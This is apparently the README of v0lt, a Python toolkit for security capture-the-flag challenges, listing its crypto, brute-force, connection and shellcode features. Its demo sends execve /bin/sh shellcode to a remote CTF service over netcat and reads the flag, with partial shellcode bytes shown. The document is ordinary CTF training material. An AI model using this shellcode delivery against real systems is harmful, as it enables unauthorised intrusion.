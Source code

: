 ![v0lt](https://raw.githubusercontent.com/P1kachu/v0lt/master/v0lt/assets/v0lt.png)

v0lt
====

v0lt is an attempt to regroup every tool I used/use/will use in security CTF, Python style.
A lot of exercises were solved using bash scripts but Python may be
more flexible, that's why.
Nothing to do with Gallopsled. It's a toy toolkit, with small but
specific utils only.

##Requirements and Installation
####Dependencies:
* Libmagic
* Python3
  * BeautifulSoup
  * Requests
  * filemagic
  * hexdump
  * passlib

####Installation:
```Bash
# for v0lt install
git clone https://github.com/P1kachu/v0lt.git
cd v0lt
[sudo] python3 setup.py install # sudo is required for potentially missing dependencies
```

##Demo: Shellcodes
```Python
>>> from v0lt import *
>>> nc = Netcat("archpichu.ddns.net", 65102)
Connected to port 65102
>>> print(nc.read())
GIVE ME SHELLCODZ
>>> shellhack = ShellCrafter(4096, "bin","execve")
>>> shellhack.get_shellcodes(shellhack.keywords)

...<SNIPPED>...
85: Linux/x86:setuid(0) & execve(/sbin/poweroff -f) - 47 bytes
86: Linux/x86:execve (/bin/sh) - 21 Bytes
87: Linux/x86:break chroot execve /bin/sh - 80 bytes
88: Linux/x86:execve(/bin/sh,0,0) - 21 bytes
...<SNIPPED>...

Selection: 86
Your choice: http://shell-storm.org/shellcode/files/shellcode-752.php
Shellcode: "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62[...]"

>>> nc.shellcat(shellhack.shellcode)
>>> nc.writeln(shellhack.pad())
>>> exploit = nc.dialogue("cat flag", 3)
>>> print(exploit)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:
File name too long
P1kaCTF{sh3llc0de_1s_e4zY}
```
##Implemented:
* Crypto
    * Base64
    * Ceasar shift
    * Hashing functions (SHA, MD5)
    * Bits manipulations (XOR, inverse XOR)
    * Usual conversions (bytes, strings, hex)
    * RSA basics (inverse modulo, inverse power, egcd...)
    * Bruteforcing (Dictionnary, custom word)

* Shellcodes
    * Shellcode selection and download from Shell-storm repo
    * Shellcode formater
    * Shell{cat,net}: Sending shellcode made easy
    * Automatic padding

* Easy connection support
    * Netcat
    * Telnet

* Solving
    * Instruction Counting bruteforcer

And more
Examples are available ![here](./examples/)

